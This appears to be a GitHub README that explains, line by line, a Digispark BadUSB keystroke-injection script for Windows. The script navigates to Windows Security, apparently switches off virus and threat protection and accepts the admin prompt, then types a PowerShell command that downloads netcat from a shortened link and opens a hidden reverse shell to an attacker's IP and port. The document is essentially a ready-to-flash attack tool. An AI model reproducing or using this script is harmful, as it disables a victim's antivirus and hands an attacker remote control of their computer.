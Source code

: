 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>

<em>```This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.```<em>

<code color="#00979C">void setup(){</code>
  
<em>```This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em>```This line introduces a delay of 1000 milliseconds (1 second) in the program execution.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em>```This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```Another delay of 1000 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
  
<em>```The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Enter key.```<em>

<code color="#00979C">DigiKeyboard.delay(5000);</code>
  
<em>```A delay of 5000 milliseconds (5 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
  
<em>```The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```Yet another Enter key press is simulated.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>``` Another delay of 700 milliseconds is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
  
<em>```The sendKeyStroke() function simulates pressing the Space key.```<em>

<code color="#00979C">DigiKeyboard.delay(2000);</code>
  
<em>```A delay of 2000 milliseconds (2 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em>```A delay of 1000 milliseconds (1 second) is introduced.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.```<em>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em>```A delay of 500 milliseconds (0.5 seconds) is added.```<em>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.```<em>

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em>```A delay of 700 milliseconds (0.7 seconds) is introduced.```<em>

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
  
<em>```The print() function is used to simulate typing the provided string, which contains a PowerShell command.```<em>
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em>```The sendKeyStroke() function is used to simulate pressing the Enter key.```<em>

<code color="#00979C">void loop(){}</code>
<em>```This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.```<em>
```<em>



